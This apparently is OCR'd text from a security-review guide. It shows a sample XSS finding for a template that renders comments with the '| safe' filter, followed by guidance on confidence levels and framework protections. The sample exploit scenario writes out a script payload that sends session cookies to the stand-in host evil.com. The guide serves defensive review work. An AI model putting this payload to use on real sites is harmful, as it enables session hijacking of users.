 ```
**Security Issue: XSS in comment display**
- **Severity:** Medium
- **Category:** xss
- **Issue:** User comment content rendered with `{{ comment | safe }}` filter without sanitisation
- **Exploit Scenario:** User posts comment containing `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>` to steal session cookies
- **Fix:** Remove `| safe` filter to use auto-escaping: `{{ comment }}`, or sanitise HTML input server-side before storage
```

## CONFIDENCE & CONTEXT CONSIDERATIONS

- **High Confidence (0.9-1.0):** Clear vulnerability with obvious exploit path
- **Medium Confidence (0.7-0.8):** Likely vulnerability but requires specific conditions
- **Low Confidence (0.5-0.6):** Potential issue but may have mitigations in place

Always consider:

- **Framework protections** that may already handle the issue
- **Input validation** that may occur elsewhere in the codebase
- **Environment context** - development vs production configurations
- **Defense in depth** - multiple security layers that may mitigate risk

Focus on providing **actionable, high-confidence security guidance** that helps developers build more secure applications without overwhelming them with false positives or theoretical concerns.
